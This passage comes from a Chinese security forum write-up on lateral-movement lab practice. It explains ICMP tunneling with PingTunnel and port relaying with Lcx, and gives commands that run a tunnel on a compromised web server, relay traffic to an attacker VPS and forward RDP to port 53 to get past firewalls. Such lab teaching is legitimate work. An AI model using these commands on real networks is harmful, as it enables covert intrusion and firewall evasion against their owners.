 1

2

|

`ICMP隧道是网络层常用的隧道之一。在ICMP协议中，设备间的通信是不需要开放相应的端口。当攻击者使用各类上层隧道进行通信均失败时，则可通过ping命令访问目标计算机，并尝试建立ICMP隧道，将TCP``/``UDP等相应需要传输的数据封装到ping数据包中，从而穿过防火墙实现通讯。`

`其中PingTunnel是ICMP隧道的常用工具，可跨平台使用。下面使用该工具进行相应的操作：`  
  
---|---  
  
先在受控端（web服务器）运行PingTunnel工具，执行开启隧道命令  
sudo ./pingtunnel -type server  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_AB5W5S5BHVS4WUJ.png)  
在控制端（公网vps）执行下面命令，打开需要监听的本地端口，会把指定的服务器相应端口的数据封装在ICMP隧道中，以受控端（web服务器）为IMCP隧道跳板进行传输。  
pingtunnel -type client -l :本地所监听的端口 -s 受控端IP -t 指定要转发的目标IP:指定要转发的目标端口 -tcp 1  
pingtunnel -type client -l :33444 -s 192.168.74.132 -t 192.168.96.145:80 -tcp
1  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_QK2JRKQ45MF9NWQ.png)  
访问本地监听端口：  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_C8ZWJ3GX3BUZKPD.png)

## [](https://bbs.pediy.com/thread-268289.htm)6.2 传输层隧道

Lcx是传输层经典的转发工具。Lcx是一个基于Socket套接字实现的转发工具，其linux版本为portmap。一个正常的Socket隧道必须具备两端：一端为服务端，负责监听一个端口并等待客户端连接；另一端为客户端，通过服务端的地址和端口与其连接，并转发相应的数据给服务端。  
在自己的公网vps（即服务端）执行监听命令，将本机4444端口上监听的所有数据转发给本机的5555端口，以便其它机器访问。  
Lcx.exe -listen 4444 5555  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_2Y4S34KV657RGWU.png)  
在受控端（即客户端）执行数据转发命令，将目标机器的80端口转发到公网vps的4444端口。  
Lcx.exe -slave 公网ip 4444 目标机器IP 80  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_FES9GHVB9CEN4KJ.png)  
我们通过vps的ip和5555访问到目标机器的80端口：  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_YA4Z42HDVAZX2PU.png)



同样地lcx也常用于本地端口映射，当目标服务器由于防火墙限制，部分端口没能通过防火墙时，可以将目标服务器响应端口数据转发到防火墙允许的端口。在目标服务器执行下面命令，即可把远程桌面转到53端口：  
Lcx -tran 53 目标服务器IP 3389

## [](https://bbs.pediy.com/thread-268289.htm)6.3 应用层隧道
